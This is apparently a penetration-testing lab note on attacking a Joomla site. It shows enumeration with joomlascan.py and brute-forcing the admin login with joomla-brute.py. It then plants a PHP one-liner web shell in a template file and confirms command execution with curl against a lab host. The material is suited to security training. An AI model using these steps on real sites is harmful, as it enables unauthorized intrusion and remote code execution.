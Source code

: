 #### Installing JoomlaScan and associated dependencies
```Shell
python2.7 -m pip install urllib3
python2.7 -m pip install certifi
python2.7 -m pip install bs4
```
[joomlascan.py](ttps://raw.githubusercontent.com/drego85/JoomlaScan/master/joomlascan.py)

#### Enumerating a Joomla web page with `joomlascan.py`
```Shell
python2.7 joomlascan.py -u http://dev.inlanefreight.local
```

#### Using [joomla-brute.py](https://raw.githubusercontent.com/ajnik/joomla-bruteforce/master/joomla-brute.py) to brute force the admin login page
```Shell
python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```
User is `admin` by default


## Attacking Joomla

### Abusing Built-In Functionality

#### Log-in to the database
![[Pasted image 20230218155055.png]]

#### Click on the Templates tab
![[Pasted image 20230218155103.png]]

#### Click on a template name and pull up the page source
![[Pasted image 20230218155211.png]]

***Tip: Get in the habit of using non-standard file names and parameters for our web shells to not make them easily accessible to a "drive-by" attacker during the assessment*

#### Add a PHP one-liner to gain code execution
```Shell
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```
![[Pasted image 20230218155337.png]]

#### Click on `Save & Close` at the top and confirm code execution using cURL
```Shell
curl -s http://dev.inlanefreight.local/templates/protostar/error.php/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
```
From here, we can upgrade to an interactive reverse shell and begin looking for local privilege escalation vectors or focus on lateral movement within the corporate network
